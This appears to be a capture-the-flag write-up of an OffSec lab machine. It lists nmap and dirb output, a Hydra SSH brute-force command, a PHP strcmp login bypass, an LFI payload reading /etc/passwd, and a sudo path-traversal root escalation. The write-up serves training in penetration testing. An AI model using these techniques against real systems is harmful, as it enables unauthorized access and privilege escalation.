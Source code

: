 ## Ping Check
```
ping 192.168.52.101
PING 192.168.52.101 (192.168.52.101) 56(84) bytes of data.
64 bytes from 192.168.52.101: icmp_seq=1 ttl=63 time=0.359 ms
64 bytes from 192.168.52.101: icmp_seq=2 ttl=63 time=0.257 ms
64 bytes from 192.168.52.101: icmp_seq=3 ttl=63 time=0.249 ms
^C
--- 192.168.52.101 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2030ms
rtt min/avg/max/mdev = 0.249/0.288/0.359/0.050 ms
```

## Nmap Scan

```
nmap -sV -Pn -p- 192.168.52.101 --open -A
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-16 10:34 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 97.75% done; ETC: 10:35 (0:00:00 remaining)
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 98.74% done; ETC: 10:35 (0:00:00 remaining)
Stats: 0:01:52 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.67% done; ETC: 10:36 (0:00:02 remaining)
Nmap scan report for 192.168.52.101
Host is up (0.00047s latency).
Not shown: 60855 closed tcp ports (conn-refused), 4677 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:192.168.52.101]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2112-TCP:V=7.93%I=7%D=6/16%Time=648C7343%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,91,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:192\.
SF:168\.52\.101\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x2
SF:0creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20crea
SF:tive\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.96 seconds

```

## Dirb scan 
```
dirb http://192.168.52.101/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jun 16 10:40:31 2023
URL_BASE: http://192.168.52.101/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.52.101/ ----
                                                                                                                                                          ==> DIRECTORY: http://192.168.52.101/admin/
+ http://192.168.52.101/index.php (CODE:200|SIZE:245)                       
+ http://192.168.52.101/server-status (CODE:403|SIZE:279)                   
                                                                            
---- Entering directory: http://192.168.52.101/admin/ ----
                                                                             + http://192.168.52.101/admin/index.php (CODE:200|SIZE:466)                 
                                                                             ==> DIRECTORY: http://192.168.52.101/admin/logs/
                                                                            
---- Entering directory: http://192.168.52.101/admin/logs/ ----
                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Jun 16 10:40:34 2023
DOWNLOADED: 9224 - FOUND: 3

```

## Pages Found

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/f71f0b78-9bca-4801-8593-6123b9f845fb)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/39d9c47a-5612-4826-b597-5f08d848f168)

## SSH bruteforce using Hydra

- tried using hydra to bruteforce SSH login , but no use its takes an hours
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.52.101 ssh`

## FTP anon

- there are two files found , 1. welcome.msg , 2.index.php.bak
- In index.php.bak , username and pass field has been check by strcmp

## Exploiting strcmp
https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016
- Taking this as reference, to bypass the strcmp using NULL==0
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6a2c8f86-76f0-449c-a22d-149396c19367)

- Now we can able to access the admin dashboard

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/1b2da290-63b2-4e04-9da9-dfeb70b20411)

- In the logs page, there is a file parameter passing, so tried LFI `../../../../../etc/passwd`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5813f3ae-b034-4b55-ae2b-406596c68390)

- Try nano to paste the hash, don't echo , because of $ sign 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/cb810238-4347-4421-9001-585c79abc548)

## SSH - Local user flagged
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/b036a2a2-5bcb-4e49-ac79-f716d52126cb)

- That `/bin/nice /notes/*` --> * -->> {we can give any path to run as sudo}
- So created a file to take shell with root premission

```
cd ~
echo /bin/bash > shell.sh
sudo /bin/nice /notes/../home/webadmin/shell.sh
```

## Root user flagged

- This gives root shell

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/3c559eb9-899c-4f6a-a17a-c44ce32ef413)











